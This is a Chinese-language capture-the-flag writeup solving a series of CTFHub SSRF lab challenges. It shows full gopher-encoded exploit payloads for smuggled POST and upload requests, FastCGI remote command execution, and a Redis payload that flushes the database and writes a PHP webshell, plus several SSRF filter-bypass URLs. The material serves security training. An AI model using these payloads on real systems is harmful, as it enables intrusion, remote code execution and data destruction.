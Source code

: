 ```yaml
---
# 这是页面的图标
icon: token
# 这是文章的标题
title: CTFHub-SSRF-writeup
# 设置作者
author: lhz
# 设置写作时间
time: 2021-08-24
# 一个页面只能有一个分类
category: CTF
# 一个页面可以有多个标签
tag:
  - writeup

comment: false
---
```

![ssrf](/assets/img/ctf/ssrf.png)
## 内网访问
  直接构造访问请求,获取flag
  ```url
  /?url=127.0.0.1/flag.php
  ```
## 伪协议读取文件
  根据题目提示使用file://协议，尝试一般web目录/var/www/html/  
  ![file](/assets/img/ctf/file.png)
## 端口扫描
  提示端口范围8000到9000
  ```url
  /?url=127.0.0.1:8000
  ```
  使用burpsuite对端口进行爆破，即可得到端口，访问获取flag
## POST请求  
  访问/?url=127.0.0.1/flag.ph,返回页面  
  ![post1](/assets/img/ctf/post1.png)  
  包含一个form和隐藏的key，推测需要在form中提交key，F12添加提交按钮  
  ```
  <input type="submit" name="sbumit">
  ```   
  ![post3](/assets/img/ctf/post3.png)  
  在页面上提交key，页面返回"Just View From 127.0.0.1"  
  ![post5](/assets/img/ctf/post5.png)  
  可见需要通过SSRF提交请求，构造POST请求
  ```
POST /flag.php HTTP/1.1
Host: 127.0.0.1:80
Content-Type: application/x-www-form-urlencoded
Content-Length: 36

key=99cb8729f8a7ba5dcaa367dc092c2f2c
  ```
  因为通过SSRF，需要进行两次请求，所以对请求数据进行2次url编码，注意使用CRLF，第一次url编码后需要将%0A替换为%0D%0A,最后得到请求数据  
  ```
  POST%2520/flag.php%2520HTTP/1.1%250D%250AHost%253A%2520127.0.0.1%253A80%250D%250AContent-Type%253A%2520application/x-www-form-urlencoded%250D%250AContent-Length%253A%252036%250D%250A%250D%250Akey%253D99cb8729f8a7ba5dcaa367dc092c2f2c
  ```
  使用gopher发送请求，gopher协议是SSRF中常用的一个协议：
  ```url
  gopher://IP:port/_{TCP/IP数据流}
  ```
  得到flag   
  ![post4](/assets/img/ctf/post4.png)
## 文件上传
使用file协议查看flag.php，代码检查了上传ip和文件大小，所以需要从127.0.0.1上传非空文件
  ```php html
  <?php
  error_reporting(0);
  if($_SERVER["REMOTE_ADDR"] != "127.0.0.1"){
      echo "Just View From 127.0.0.1";
      return;
  }
  if(isset($_FILES["file"]) && $_FILES["file"]["size"] > 0){
      echo getenv("CTFHUB");
      exit;
  }
  ?>
  Upload Webshell
  <form action="/flag.php" method="post" enctype="multipart/form-data">
      <input type="file" name="file">
  </form>
  ```

访问`/?url=127.0.0.1/flag.php`，返回一个文件上传form，根据题意需要提交文件获取flag，F12添加提交按钮  
![upload1](/assets/img/ctf/upload1.png)  
提交一个随意非空文件，抓取上传数据包，修改host为127.0.0.1:80  
![upload2](/assets/img/ctf/upload2.png)  
对上传数据进行二次url编码，注意第一次编码后将%0A替换为%0D%0A，得到编码后的请求数据  

```
POST%2520%252Fflag.php%2520HTTP%252F1.1%250D%250AHost%253A%2520127.0.0.1%253A80%250D%250AContent-Length%253A%2520280%250D%250ACache-Control%253A%2520max-age%253D0%250D%250AUpgrade-Insecure-Requests%253A%25201%250D%250AOrigin%253A%2520http%253A%252F%252Fchallenge-426ad735267eb08d.sandbox.ctfhub.com%253A10800%250D%250AContent-Type%253A%2520multipart%252Fform-data%253B%2520boundary%253D----WebKitFormBoundaryM9A8PenlAkNIPrWa%250D%250AUser-Agent%253A%2520Mozilla%252F5.0%2520(Windows%2520NT%252010.0%253B%2520Win64%253B%2520x64)%2520AppleWebKit%252F537.36%2520(KHTML%252C%2520like%2520Gecko)%2520Chrome%252F92.0.4515.159%2520Safari%252F537.36%250D%250AAccept%253A%2520text%252Fhtml%252Capplication%252Fxhtml%252Bxml%252Capplication%252Fxml%253Bq%253D0.9%252Cimage%252Favif%252Cimage%252Fwebp%252Cimage%252Fapng%252C*%252F*%253Bq%253D0.8%252Capplication%252Fsigned-exchange%253Bv%253Db3%253Bq%253D0.9%250D%250AReferer%253A%2520http%253A%252F%252Fchallenge-426ad735267eb08d.sandbox.ctfhub.com%253A10800%252F%253Furl%253D127.0.0.1%252Fflag.php%250D%250AAccept-Language%253A%2520zh-CN%252Czh%253Bq%253D0.9%250D%250ACookie%253A%2520UM_distinctid%253D17b2f471020f2e-06f3628e7e7e6e-4343363-1fa400-17b2f47102110f5%250D%250AConnection%253A%2520close%250D%250A%250D%250A------WebKitFormBoundaryM9A8PenlAkNIPrWa%250D%250AContent-Disposition%253A%2520form-data%253B%2520name%253D%2522file%2522%253B%2520filename%253D%2522123.txt%2522%250D%250AContent-Type%253A%2520text%252Fplain%250D%250A%250D%250A123%250D%250A------WebKitFormBoundaryM9A8PenlAkNIPrWa%250D%250AContent-Disposition%253A%2520form-data%253B%2520name%253D%2522123%2522%250D%250A%250D%250A%25C3%25A6%25C2%258F%25C2%2590%25C3%25A4%25C2%25BA%25C2%25A4%250D%250A------WebKitFormBoundaryM9A8PenlAkNIPrWa--
```
使用gopher发送请求，得到flag  
![upload3](/assets/img/ctf/upload3.png)
## FastCGI协议
[fastcgi相关介绍](https://blog.csdn.net/mysteryflower/article/details/94386461)  
[gopher payload工具](https://github.com/tarunkant/Gopherus)  
使用gopherus工具生成payload，运行命令`ls /`  
![fastcgi1](/assets/img/ctf/fastcgi1.png)   
进行url编码后得到提交payload  
```url
gopher%3A%2F%2F127.0.0.1%3A9000%2F_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2504%2504%2500%250F%2510SERVER_SOFTWAREgo%2520%2F%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP%2F1.1%250E%2502CONTENT_LENGTH56%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A%2F%2Finput%250F%2517SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Findex.php%250D%2501DOCUMENT_ROOT%2F%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%25008%2504%2500%253C%253Fphp%2520system%2528%2527ls%2520%2F%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500
```
发送请求，获取`/`下目录情况,发现flag文件  
![fastcgi2](/assets/img/ctf/fastcgi2.png)    
使用gopherus工具生成payload，运行命令`cat /flag_14e0ba551d369f7992793e0b62395dc5`   
![fastcgi3](/assets/img/ctf/fastcgi3.png)   
进行url编码后得到提交payload    
```url
gopher%3A%2F%2F127.0.0.1%3A9000%2F_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2504%2504%2500%250F%2510SERVER_SOFTWAREgo%2520%2F%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP%2F1.1%250E%2502CONTENT_LENGTH94%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A%2F%2Finput%250F%2517SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Findex.php%250D%2501DOCUMENT_ROOT%2F%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%2500%255E%2504%2500%253C%253Fphp%2520system%2528%2527cat%2520%2Fflag_14e0ba551d369f7992793e0b62395dc5%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500
```  
发送请求，获得flag  
![fastcgi4](/assets/img/ctf/fastcgi4.png)

## Redis协议
[浅析Redis中SSRF的利用](https://xz.aliyun.com/t/5665)  
redis写shell命令如下
```shell
flushall
set 1 '<?php eval($_GET["feng"]);?>'
config set dir /var/www/html
config set dbfilename feng.php
save
```
使用gopherus工具生成redis攻击payload  
![redis1](/assets/img/ctf/redis1.png)  
进行url编码得到请求payload
```
gopher%3A%2F%2F127.0.0.1%3A6379%2F_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252434%250D%250A%250A%250A%253C%253Fphp%2520system%2528%2524_GET%255B%2527cmd%2527%255D%2529%253B%2520%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A%2Fvar%2Fwww%2Fhtml%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%250A
```
请求后生成一句话shell.php文件，利用参数cmd，构造请求`/shell.php?cmd=ls%20/`  
![redis2](/assets/img/ctf/redis2.png)  
获取flag文件，再构造请求`/shell.php?cmd=cat%20/flag_1d41ab57dcc1507d5d99e103cdca52da`,获得flag  
![redis3](/assets/img/ctf/redis3.png)  
## URL Bypasss
  访问地址提示"start with `http://notfound.ctfhub.com`", 所以需要以`http://notfound.ctfhub.com`开头，构造访问url如下获取flag
  ```url
  /?url=http://notfound.ctfhub.com@127.0.0.1/flag.php
  ```
## 数字IP Bypass
题目提示ban掉了127以及172.不能使用点分十进制的IP，但是又要访问127.0.0.1
  - 方法一：  
  使用localhost代替127.0.0.1,构造请求url如下，获取flag
  ```url
  /?url=http://localhost/flag.php
  ```
  - 方法二:  
  将127.0.0.1转换为16进制0x7F000001,构造请求url如下，获取flag
  ```url
  /?url=http://0x7F000001/flag.php
  ```  

## 302跳转 Bypass
题目提示过滤了127.0.0.1，使用[数字IP Bypass](#数字ip-bypass)可以绕过，但是题意是使用302跳转绕过，可以生成短链接302跳转获得flag,  [短链接生成网站](https://my5353.com/)  
![短链接访问](/assets/img/ctf/302.png)
## DNS重绑定
[DNS重绑定漏洞](https://zhuanlan.zhihu.com/p/89426041)  
使用file://协议查看flag.php查看代码发现过滤了`/127|172|10|192/`开头，可以用16进制方式绕过，但是考虑到题目要求使用DNS重绑定  
使用[rbndr.us dns rebinding service](https://lock.cmpxchg8b.com/rebinder.html)获取域名  
![dns1](/assets/img/ctf/dns1.png)  
访问或取flag  
![dns2](/assets/img/ctf/dns2.png)
